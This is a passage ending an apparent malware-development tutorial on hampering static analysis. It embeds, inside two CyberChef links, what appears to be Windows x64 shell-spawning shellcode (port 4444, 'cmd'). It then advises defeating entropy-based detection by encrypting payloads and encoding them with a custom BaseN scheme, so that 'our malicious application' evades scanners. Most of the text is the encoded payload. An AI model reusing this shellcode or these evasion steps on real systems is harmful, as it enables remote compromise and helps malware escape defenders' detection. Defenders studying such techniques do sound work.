[GZIP-compressed](https://gchq.github.io/CyberChef/#recipe=From_Hex('%5C%5Cx')Gzip('Dynamic%20Huffman%20Coding','','',false)Entropy('Shannon%20scale')&input=XHhmY1x4NDhceDgzXHhlNFx4ZjBceGU4XHhjMFx4MDBceDAwXHgwMFx4NDFceDUxXHg0MVx4NTBceDUyXHg1MVx4NTZceDQ4XHgzMVx4ZDJceDY1XHg0OFx4OGJceDUyXHg2MFx4NDhceDhiXHg1Mlx4MThceDQ4XHg4Ylx4NTJceDIwXHg0OFx4OGJceDcyXHg1MFx4NDhceDBmXHhiN1x4NGFceDRhXHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4M2NceDYxXHg3Y1x4MDJceDJjXHgyMFx4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceGUyXHhlZFx4NTJceDQxXHg1MVx4NDhceDhiXHg1Mlx4MjBceDhiXHg0Mlx4M2NceDQ4XHgwMVx4ZDBceDhiXHg4MFx4ODhceDAwXHgwMFx4MDBceDQ4XHg4NVx4YzBceDc0XHg2N1x4NDhceDAxXHhkMFx4NTBceDhiXHg0OFx4MThceDQ0XHg4Ylx4NDBceDIwXHg0OVx4MDFceGQwXHhlM1x4NTZceDQ4XHhmZlx4YzlceDQxXHg4Ylx4MzRceDg4XHg0OFx4MDFceGQ2XHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceDM4XHhlMFx4NzVceGYxXHg0Y1x4MDNceDRjXHgyNFx4MDhceDQ1XHgzOVx4ZDFceDc1XHhkOFx4NThceDQ0XHg4Ylx4NDBceDI0XHg0OVx4MDFceGQwXHg2Nlx4NDFceDhiXHgwY1x4NDhceDQ0XHg4Ylx4NDBceDFjXHg0OVx4MDFceGQwXHg0MVx4OGJceDA0XHg4OFx4NDhceDAxXHhkMFx4NDFceDU4XHg0MVx4NThceDVlXHg1OVx4NWFceDQxXHg1OFx4NDFceDU5XHg0MVx4NWFceDQ4XHg4M1x4ZWNceDIwXHg0MVx4NTJceGZmXHhlMFx4NThceDQxXHg1OVx4NWFceDQ4XHg4Ylx4MTJceGU5XHg1N1x4ZmZceGZmXHhmZlx4NWRceDQ5XHhiZVx4NzdceDczXHgzMlx4NWZceDMzXHgzMlx4MDBceDAwXHg0MVx4NTZceDQ5XHg4OVx4ZTZceDQ4XHg4MVx4ZWNceGEwXHgwMVx4MDBceDAwXHg0OVx4ODlceGU1XHg0OVx4YmNceDAyXHgwMFx4MTFceDVjXHgwMFx4MDBceDAwXHgwMFx4NDFceDU0XHg0OVx4ODlceGU0XHg0Y1x4ODlceGYxXHg0MVx4YmFceDRjXHg3N1x4MjZceDA3XHhmZlx4ZDVceDRjXHg4OVx4ZWFceDY4XHgwMVx4MDFceDAwXHgwMFx4NTlceDQxXHhiYVx4MjlceDgwXHg2Ylx4MDBceGZmXHhkNVx4NTBceDUwXHg0ZFx4MzFceGM5XHg0ZFx4MzFceGMwXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMyXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMxXHg0MVx4YmFceGVhXHgwZlx4ZGZceGUwXHhmZlx4ZDVceDQ4XHg4OVx4YzdceDZhXHgxMFx4NDFceDU4XHg0Y1x4ODlceGUyXHg0OFx4ODlceGY5XHg0MVx4YmFceGMyXHhkYlx4MzdceDY3XHhmZlx4ZDVceDQ4XHgzMVx4ZDJceDQ4XHg4OVx4ZjlceDQxXHhiYVx4YjdceGU5XHgzOFx4ZmZceGZmXHhkNVx4NGRceDMxXHhjMFx4NDhceDMxXHhkMlx4NDhceDg5XHhmOVx4NDFceGJhXHg3NFx4ZWNceDNiXHhlMVx4ZmZceGQ1XHg0OFx4ODlceGY5XHg0OFx4ODlceGM3XHg0MVx4YmFceDc1XHg2ZVx4NGRceDYxXHhmZlx4ZDVceDQ4XHg4MVx4YzRceGEwXHgwMlx4MDBceDAwXHg0OVx4YjhceDYzXHg2ZFx4NjRceDAwXHgwMFx4MDBceDAwXHgwMFx4NDFceDUwXHg0MVx4NTBceDQ4XHg4OVx4ZTJceDU3XHg1N1x4NTdceDRkXHgzMVx4YzBceDZhXHgwZFx4NTlceDQxXHg1MFx4ZTJceGZjXHg2Nlx4YzdceDQ0XHgyNFx4NTRceDAxXHgwMVx4NDhceDhkXHg0NFx4MjRceDE4XHhjNlx4MDBceDY4XHg0OFx4ODlceGU2XHg1Nlx4NTBceDQxXHg1MFx4NDFceDUwXHg0MVx4NTBceDQ5XHhmZlx4YzBceDQxXHg1MFx4NDlceGZmXHhjOFx4NGRceDg5XHhjMVx4NGNceDg5XHhjMVx4NDFceGJhXHg3OVx4Y2NceDNmXHg4Nlx4ZmZceGQ1XHg0OFx4MzFceGQyXHg0OFx4ZmZceGNhXHg4Ylx4MGVceDQxXHhiYVx4MDhceDg3XHgxZFx4NjBceGZmXHhkNVx4YmJceGYwXHhiNVx4YTJceDU2XHg0MVx4YmFceGE2XHg5NVx4YmRceDlkXHhmZlx4ZDVceDQ4XHg4M1x4YzRceDI4XHgzY1x4MDZceDdjXHgwYVx4ODBceGZiXHhlMFx4NzVceDA1XHhiYlx4NDdceDEzXHg3Mlx4NmZceDZhXHgwMFx4NTlceDQxXHg4OVx4ZGFceGZmXHhkNQ) and
[Base64-encoded](https://gchq.github.io/CyberChef/#recipe=From_Hex('%5C%5Cx')To_Base64('A-Za-z0-9%2B/%3D')Entropy('Shannon%20scale')&input=XHhmY1x4NDhceDgzXHhlNFx4ZjBceGU4XHhjMFx4MDBceDAwXHgwMFx4NDFceDUxXHg0MVx4NTBceDUyXHg1MVx4NTZceDQ4XHgzMVx4ZDJceDY1XHg0OFx4OGJceDUyXHg2MFx4NDhceDhiXHg1Mlx4MThceDQ4XHg4Ylx4NTJceDIwXHg0OFx4OGJceDcyXHg1MFx4NDhceDBmXHhiN1x4NGFceDRhXHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4M2NceDYxXHg3Y1x4MDJceDJjXHgyMFx4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceGUyXHhlZFx4NTJceDQxXHg1MVx4NDhceDhiXHg1Mlx4MjBceDhiXHg0Mlx4M2NceDQ4XHgwMVx4ZDBceDhiXHg4MFx4ODhceDAwXHgwMFx4MDBceDQ4XHg4NVx4YzBceDc0XHg2N1x4NDhceDAxXHhkMFx4NTBceDhiXHg0OFx4MThceDQ0XHg4Ylx4NDBceDIwXHg0OVx4MDFceGQwXHhlM1x4NTZceDQ4XHhmZlx4YzlceDQxXHg4Ylx4MzRceDg4XHg0OFx4MDFceGQ2XHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceDM4XHhlMFx4NzVceGYxXHg0Y1x4MDNceDRjXHgyNFx4MDhceDQ1XHgzOVx4ZDFceDc1XHhkOFx4NThceDQ0XHg4Ylx4NDBceDI0XHg0OVx4MDFceGQwXHg2Nlx4NDFceDhiXHgwY1x4NDhceDQ0XHg4Ylx4NDBceDFjXHg0OVx4MDFceGQwXHg0MVx4OGJceDA0XHg4OFx4NDhceDAxXHhkMFx4NDFceDU4XHg0MVx4NThceDVlXHg1OVx4NWFceDQxXHg1OFx4NDFceDU5XHg0MVx4NWFceDQ4XHg4M1x4ZWNceDIwXHg0MVx4NTJceGZmXHhlMFx4NThceDQxXHg1OVx4NWFceDQ4XHg4Ylx4MTJceGU5XHg1N1x4ZmZceGZmXHhmZlx4NWRceDQ5XHhiZVx4NzdceDczXHgzMlx4NWZceDMzXHgzMlx4MDBceDAwXHg0MVx4NTZceDQ5XHg4OVx4ZTZceDQ4XHg4MVx4ZWNceGEwXHgwMVx4MDBceDAwXHg0OVx4ODlceGU1XHg0OVx4YmNceDAyXHgwMFx4MTFceDVjXHgwMFx4MDBceDAwXHgwMFx4NDFceDU0XHg0OVx4ODlceGU0XHg0Y1x4ODlceGYxXHg0MVx4YmFceDRjXHg3N1x4MjZceDA3XHhmZlx4ZDVceDRjXHg4OVx4ZWFceDY4XHgwMVx4MDFceDAwXHgwMFx4NTlceDQxXHhiYVx4MjlceDgwXHg2Ylx4MDBceGZmXHhkNVx4NTBceDUwXHg0ZFx4MzFceGM5XHg0ZFx4MzFceGMwXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMyXHg0OFx4ZmZceGMwXHg0OFx4ODlceGMxXHg0MVx4YmFceGVhXHgwZlx4ZGZceGUwXHhmZlx4ZDVceDQ4XHg4OVx4YzdceDZhXHgxMFx4NDFceDU4XHg0Y1x4ODlceGUyXHg0OFx4ODlceGY5XHg0MVx4YmFceGMyXHhkYlx4MzdceDY3XHhmZlx4ZDVceDQ4XHgzMVx4ZDJceDQ4XHg4OVx4ZjlceDQxXHhiYVx4YjdceGU5XHgzOFx4ZmZceGZmXHhkNVx4NGRceDMxXHhjMFx4NDhceDMxXHhkMlx4NDhceDg5XHhmOVx4NDFceGJhXHg3NFx4ZWNceDNiXHhlMVx4ZmZceGQ1XHg0OFx4ODlceGY5XHg0OFx4ODlceGM3XHg0MVx4YmFceDc1XHg2ZVx4NGRceDYxXHhmZlx4ZDVceDQ4XHg4MVx4YzRceGEwXHgwMlx4MDBceDAwXHg0OVx4YjhceDYzXHg2ZFx4NjRceDAwXHgwMFx4MDBceDAwXHgwMFx4NDFceDUwXHg0MVx4NTBceDQ4XHg4OVx4ZTJceDU3XHg1N1x4NTdceDRkXHgzMVx4YzBceDZhXHgwZFx4NTlceDQxXHg1MFx4ZTJceGZjXHg2Nlx4YzdceDQ0XHgyNFx4NTRceDAxXHgwMVx4NDhceDhkXHg0NFx4MjRceDE4XHhjNlx4MDBceDY4XHg0OFx4ODlceGU2XHg1Nlx4NTBceDQxXHg1MFx4NDFceDUwXHg0MVx4NTBceDQ5XHhmZlx4YzBceDQxXHg1MFx4NDlceGZmXHhjOFx4NGRceDg5XHhjMVx4NGNceDg5XHhjMVx4NDFceGJhXHg3OVx4Y2NceDNmXHg4Nlx4ZmZceGQ1XHg0OFx4MzFceGQyXHg0OFx4ZmZceGNhXHg4Ylx4MGVceDQxXHhiYVx4MDhceDg3XHgxZFx4NjBceGZmXHhkNVx4YmJceGYwXHhiNVx4YTJceDU2XHg0MVx4YmFceGE2XHg5NVx4YmRceDlkXHhmZlx4ZDVceDQ4XHg4M1x4YzRceDI4XHgzY1x4MDZceDdjXHgwYVx4ODBceGZiXHhlMFx4NzVceDA1XHhiYlx4NDdceDEzXHg3Mlx4NmZceDZhXHgwMFx4NTlceDQxXHg4OVx4ZGFceGZmXHhkNQ).
So to defeat basic entropy analysis we could encrypt and then encode the data/payload using for example a custom variation of Base64 (or Base62 or any other - entropy of BaseN encoded data will be roughly equal to log<sub>2</sub>(N) ).

## Summary

We've gone through some techniques that can be used to make the static analysis of our malicious application slightly harder, mainly focusing on PE format and common indicators.

In the next article we will talk about other tricks used to further obfuscate malware.
